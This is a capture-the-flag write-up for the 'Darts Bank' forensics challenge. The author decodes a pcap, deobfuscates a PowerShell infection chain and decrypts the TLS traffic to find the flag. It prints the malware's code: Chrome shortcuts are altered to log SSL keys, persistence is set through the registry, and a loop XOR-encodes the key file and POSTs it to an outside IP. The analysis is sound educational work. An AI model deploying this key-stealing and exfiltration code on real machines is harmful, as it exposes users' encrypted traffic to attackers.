



# Darts Bank

## Disclaimer
```
Attention : ce challenge contient du code à portée malveillante. Bien que l'auteur se soit efforcé de le rendre relativement inoffensif, il convient de prendre les mesures d'isolation adéquates s'il devait être exécuté. L'organisation décline toute responsabilité en cas de dommages à votre système.
```

## Speech
```
Je me dirigeais vers l'épreuve de lancer de fléchettes quand j'ai fait une découverte horrifiante : on m'a dérobé ma fléchette porte-bonheur ! Pourtant, cette dernière était bien sécurisée grâce à ma banque à fléchettes, DartsBank, et cette dernière a toutes les protections qui s'imposent... Même le petit cadenas vert ! Je crois avoir remarqué des choses étranges sur le réseau, vous pouvez y jeter un œil ?
```

## MD5
`a5d6bb16aaebbaae69de51ba653aa358`

## Analysis
1. Open the pcap in Wireshark

2. Lots of TCP/HTTP, follow the TCP stream :

3. Copy/paste in a new file (*powershell.mal*)
4. I try to deob
    - First look for semicolon and add new line after each ";" we finish with 5 line :
        - the first one is a base64 command, let's decode : `foreach($bbbbbbbbbbbb in Get-ChildItem -Recurse -Path C:\Users -ErrorAction SilentlyContinue -Include *.lnk){$bbbbbbbbbbbbbbb=New-Object -COM WScript.Shell;$bbbbbbbbbbbbbbbb=$bbbbbbbbbbbbbbb.CreateShortcut($bbbbbbbbbbbb);if($bbbbbbbbbbbbbbbb.TargetPath -match 'chrome\.exe$'){$bbbbbbbbbbbbbbbb.Arguments="--ssl-key-log-file=$env:TEMP\defender-res.txt";$bbbbbbbbbbbbbbbb.Save();}}` Looks like is doing something with the link of chrome.exe
        - the second is a variable with very long base64 string (see the next point)
        - the third execute another base64 command : `Start-Process -WindowStyle Maximized https://hello.smyler.net` Nice one Smyler :)
        - on the fourth the very long base64 is written to run.ps1 
        - the last one put the run.ps1 in the registry
    - I decode run.ps1
5. run.ps1 seems to be a bit hard to decode, so let's fire up windows

6. I modify top print things and not sleep. ERROR !! We need a file created by the first stage...
7. the *run.ps1* is sending encrypted data, after deob I get this, we need the file `$env:TEMP\defender-res.txt` which is created early (in the previous stage) via the option `--ssl-key-log-file`, this option allow to store the SSL key in a file :
```powershell
$line_numbner=0;
$path_defender="$env:TEMP\defender-res.txt";
$long_byte=[byte[]](215,194,241,[...],10,93,120);
while($true){
    $defender=Get-Item -Path $path_defender;
    $length_defender=$defender.Length;
    if($length_defender -gt $line_numbner){
        $handle_defender=[System.IO.File]::Open($path_defender,[System.IO.FileMode]::Open, [System.IO.FileAccess]::Read,[System.IO.FileShare]::ReadWrite);
        $handle_defender.Seek($line_numbner,[System.IO.SeekOrigin]::Begin)|Out-Null;
        $byte_objetc=New-Object byte[] ($length_defender - $line_numbner);
        $handle_defender.read($byte_objetc,0,$length_defender - $line_numbner)|Out-Null;
        for($i=0;$i -lt $byte_objetc.count;$i++){
            $byte_objetc[$i]=$byte_objetc[$i] -bxor $long_byte[$i % $long_byte.count];
        }
        $data=[Convert]::ToBase64String($byte_objetc);
        # Invoke-WebRequest -Uri http://192.168.78.89/index.html -Method POST -Body $data|Out-Null;
        Write-Output $data;
        $handle_defender.Close()|Out-Null;
    }
    $line_numbner=$length_defender;
    #Start-Sleep -Seconds 5;
}
```
8. The encrypted data sent by this script is the file containing the SSL key, the script take the file, xor each byte of the file with the *$long_byte* and send it.
9. In wireshark we can see some TCP stream containing Base64 (stream 26, 29, 36, 40, 47, 51, 57, 67, 71), extract these streams in a file (*all_base64*)
10. Write a script to decode :
```
import base64

# Define your long_byte variable
long_byte = [215,194,241,104,227,144,...]

# Define your base64 string
base64_string = "base64 here"

# Decode the base64 string to get bytes
base64_bytes = base64.b64decode(base64_string)

decoded_bytes = []
# Perform XOR operation
for i in range(len(base64_bytes)):
    decoded_bytes.append(base64_bytes[i] ^ long_byte[i % len(long_byte)])

# Convert bytes to characters
decoded_text = ''.join(chr(byte) for byte in decoded_bytes)

# Print the result
print(decoded_text)
```
11. After decoding each base64 blob I have the file of SSL key (*decoded_base64*) which I can load in wireshark in order to decode the TLS communication
12. It's not looking decoded but if we go in File>Export Objects>HTTP we have a lot more object than before ! And we have file from the Hostname dartsbank.challenges.404ctf.fr, let's extract them
13. We find the flag in the index :)

## Little bonus
1. To understand the script run.ps1 I did the following :
2. Use this ressources : https://my.f5.com/manage/s/article/K50557518 to understand and store my SSL in a file on my desktop
3. modify the code like that :
```powershell
$line_numbner=0;
$path_defender="C:\Users\Flamethrower\Desktop\defender-res.txt";
$long_byte=[byte[]](215,[...],120);
while($true){
    $defender=Get-Item -Path $path_defender;
    $length_defender=$defender.Length;
    if($length_defender -gt $line_numbner){
        $handle_defender=[System.IO.File]::Open($path_defender,[System.IO.FileMode]::Open, [System.IO.FileAccess]::Read,[System.IO.FileShare]::ReadWrite);
        $handle_defender.Seek($line_numbner,[System.IO.SeekOrigin]::Begin)|Out-Null;
        $byte_object=New-Object byte[] ($length_defender - $line_numbner);
        $handle_defender.read($byte_object,0,$length_defender - $line_numbner)|Out-Null;
        #for($i=0;$i -lt $byte_object.count;$i++){
        #    $byte_object[$i]=$byte_object[$i] -bxor $long_byte[$i % $long_byte.count];
        #}
        $data=[Convert]::ToBase64String($byte_object);
        # Invoke-WebRequest -Uri http://127.0.0.1:8000 -Method GET -ContentType "application/json" -Headers @{"d"=$data}|Out-Null;
        Write-Output $data;
        $handle_defender.Close()|Out-Null;
    }
    $line_numbner=$length_defender;
    #Start-Sleep -Seconds 5;
}
```
4. Like that I print the data sent which give me things like that :
```
Q0xJRU5UX1RSQUZGSUNfU0VDUkVUXzAgNjU2YTExMTkzMmIyMWQxZWY4YWU5YTMyODNiMjJmYzYzOGMwMDU0NzVhNzE2MDRmMTM0MTliY2IzMzI2YzM1YiBlNWI2NGU1YjI4NDdiM2ZjNjAwZWFmM2JkM2QyNzcxMTFjODU4ZWJjMTA3N2Y2OWQxMWUxNmRhY2JiZjkzZTY2DQpTRVJ
WRVJfVFJBRkZJQ19TRUNSRVRfMCA2NTZhMTExOTMyYjIxZDFlZjhhZTlhMzI4M2IyMmZjNjM4YzAwNTQ3NWE3MTYwNGYxMzQxOWJjYjMzMjZjMzViIDk0NDFhOGE3OWY4ZGU1YzNmZTE2ZmMyMjk5ZDdjNDUyNmRhOWUzNzNjMjBiNmMwNTI5MWZkODVlZjI5ZTg4YzQNCkVYUE9SVE
VSX1NFQ1JFVCA2NTZhMTExOTMyYjIxZDFlZjhhZTlhMzI4M2IyMmZjNjM4YzAwNTQ3NWE3MTYwNGYxMzQxOWJjYjMzMjZjMzViIGQzYzI3YjhkOGU1OTM4NGM4ZGExZDAwZTY0Njk2YjU2NTE4OGVhYThjOTlkZjFlMTYzOWM3NzRiNTkxYTRkMzgNCg==
```
5. And base64 decoding give me :
```
CLIENT_TRAFFIC_SECRET_0 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b e5b64e5b2847b3fc600eaf3bd3d277111c858ebc1077f69d11e16dacbbf93e66
SERVER_TRAFFIC_SECRET_0 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b 9441a8a79f8de5c3fe16fc2299d7c4526da9e373c20b6c05291fd85ef29e88c4
EXPORTER_SECRET 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b d3c27b8d8e59384c8da1d00e64696b565188eaa8c99df1e1639c774b591a4d38
```
6. And if I look at my file, i can find that :
```
CLIENT_TRAFFIC_SECRET_0 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b e5b64e5b2847b3fc600eaf3bd3d277111c858ebc1077f69d11e16dacbbf93e66
SERVER_TRAFFIC_SECRET_0 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b 9441a8a79f8de5c3fe16fc2299d7c4526da9e373c20b6c05291fd85ef29e88c4
EXPORTER_SECRET 656a111932b21d1ef8ae9a3283b22fc638c005475a71604f13419bcb3326c35b d3c27b8d8e59384c8da1d00e64696b565188eaa8c99df1e1639c774b591a4d38
```